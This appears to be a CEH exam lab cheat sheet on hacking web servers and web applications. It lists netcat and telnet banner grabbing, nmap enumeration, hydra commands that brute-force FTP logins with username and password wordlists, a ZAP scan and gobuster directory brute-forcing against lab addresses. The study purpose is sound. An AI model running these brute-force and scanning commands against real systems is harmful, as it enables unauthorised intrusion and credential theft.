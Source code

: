 ## Hacking Web Servers

### Footprinting web server Using Netcat and Telnet:&#x20;

```
nc -vv www.movies.com 80
GET /HTTP/1.0
```

```
telnet www.movies.com 80
GET /HTTP/1.0
```

### Enumerate Web server info using nmap &#x20;

```
nmap -sV --script=http-enum www.movies.com
```

### Crack FTP credentials using nmap &#x20;

#### Check if FTP port is open or not

```
nmap -p 21 10.10.10.10
ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)
```

Desktop > CEH tools folder you will find wordlists, here you will find usernames and password files.

Now in terminal type: &#x20;

{% code overflow="wrap" %}
```
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
hydra -l user -P passlist.txt ftp://10.10.10.10
```
{% endcode %}

## Hacking Web Application

### Scan Using OWASP ZAP (Parrot)&#x20;

Type zaproxy in the terminal and then it will open. In the target tab put the url and click automated scan.

### Directory Bruteforcing&#x20;

```
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt
```
